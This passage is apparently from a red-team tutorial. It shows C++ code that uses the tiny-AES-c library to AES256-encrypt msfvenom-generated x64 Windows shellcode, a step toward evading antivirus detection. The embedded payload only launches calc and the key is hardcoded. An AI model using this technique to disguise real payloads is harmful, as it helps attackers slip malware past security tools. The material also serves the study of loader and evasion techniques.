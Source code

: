 I'm going to use [kokke/tiny-AES-c](https://github.com/kokke/tiny-AES-c) for this post. To use this library, simply download the following files and add them to your Visual Studio project.

- [aes.hpp](https://raw.githubusercontent.com/kokke/tiny-AES-c/master/aes.hpp)
- [aes.h](https://raw.githubusercontent.com/kokke/tiny-AES-c/master/aes.h)
- [aes.c](https://raw.githubusercontent.com/kokke/tiny-AES-c/master/aes.c)

Then on the `main.cpp` file, add the header file `aes.hpp` by adding the following line. 
```cpp
#include "include/aes.hpp"
```

We'll also use **AES256** instead of the default **AES128**. To do that, open the file `aes.h` and comment out `#define AES128 1` (line 27) and uncomment `#define AES256 1` (line 29).

Now that everything is set up, it's time to encrypt the shellcode. This can be done using the following code. 
```cpp
#include <Windows.h>
#include "include/aes.hpp"
#include <stdio.h>

int main(int argc, char* argv[])
{
	// msfvenom -p windows/x64/exec CMD=calc EXITFUNC=thread -f c 
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00";
	SIZE_T shellcodeSize = sizeof(shellcode);

	unsigned char key[] = "Captain.MeeloIsTheSuperSecretKey";
	unsigned char iv[] = "\x9d\x02\x35\x3b\xa3\x4b\xec\x26\x13\x88\x58\x51\x11\x47\xa5\x98";

	struct AES_ctx ctx;
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_encrypt_buffer(&ctx, shellcode, shellcodeSize);

	printf("Encrypted buffer:\n");

	for (int i = 0; i < shellcodeSize - 1; i++) {
		printf("\\x%02x", shellcode[i]);
	}
}
```

